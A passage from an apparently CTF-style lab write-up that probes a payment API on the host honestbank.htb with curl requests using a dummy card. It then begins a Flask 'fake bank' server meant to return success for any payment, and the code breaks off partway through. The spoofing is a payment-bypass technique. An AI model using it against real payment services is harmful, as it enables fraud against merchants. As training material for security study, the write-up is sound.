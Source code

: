 So when I try to pay, it sends a request to `/api/payments/` at the bank using the Python `requests` module.

I’ll try sending this same request to see what the response looks like:

```

oxdf@hacky$ curl honestbank.htb/api/payments/ -d '{"cardname": "0xdf", "cardnumber": "1111-2222-3333-4444", "expmonth": "September", "expyear": "2026", "cvv": "420", "amount": 25}'
{"status": "402", "message": "Payment Required", "cardname": "0xdf", "cardnumber": "1111-2222-3333-4444"}

```

It’s JSON with four fields. The last two are just mirroring what was sent. The first two are the HTTP status code of the response:

```

oxdf@hacky$ curl -v honestbank.htb/api/payments/ -d '{"cardname": "0xdf", "cardnumber": "1111-2222-3333-4444", "expmonth": "September", "expyear": "2026", "cvv": "420", "amount": 25}'
* Host honestbank.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.9
*   Trying 10.10.11.9:80...
* Connected to honestbank.htb (10.10.11.9) port 80
> POST /api/payments/ HTTP/1.1
> Host: honestbank.htb
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 129
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 402 Payment Required
< Server: nginx/1.22.1
< Date: Sun, 02 Feb 2025 11:31:20 GMT
< Content-Type: application/json
< Content-Length: 105
< Connection: keep-alive
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< Referrer-Policy: same-origin
< Cross-Origin-Opener-Policy: same-origin
< 
* Connection #0 to host honestbank.htb left intact
{"status": "402", "message": "Payment Required", "cardname": "0xdf", "cardnumber": "1111-2222-3333-4444"}

```

#### Fake Bank

I’ll write a simple Flask script that will return success when hit on `/api/payments/`:

```

from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route("/api/payments/", methods=["POST"])
def payments():
    data = request.get_json()
    response = {
        "status": "200",
        "message": "OK",
        "cardname": data["cardname"],
```